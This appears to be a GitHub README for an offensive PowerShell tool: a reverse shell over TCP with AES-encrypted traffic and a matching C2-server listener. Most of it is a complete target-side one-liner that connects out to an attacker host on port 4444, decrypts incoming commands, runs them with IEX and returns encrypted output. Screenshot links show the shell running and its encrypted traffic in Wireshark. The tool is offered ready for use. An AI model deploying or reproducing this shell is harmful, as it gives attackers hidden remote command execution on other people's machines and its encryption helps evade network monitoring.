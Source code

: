 
### Reverse Shell over TCP (+ AES Encryption) using PowerShell SecureString Method: Client & C2-Server Listener. ###

- Attacker:

PS> .\Server.ps1

- Target:

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit

### PoC: ###

- Reverse Shell over TCP (+ AES Encryption) PowerShell Execution (Client & C2-Server Listener):

![alt text](/PoC1.jpg)

- Reverse Shell over TCP (+ AES Encryption) Encrypted session Traffic (WireShark):

![alt text](/PoC2.jpg)
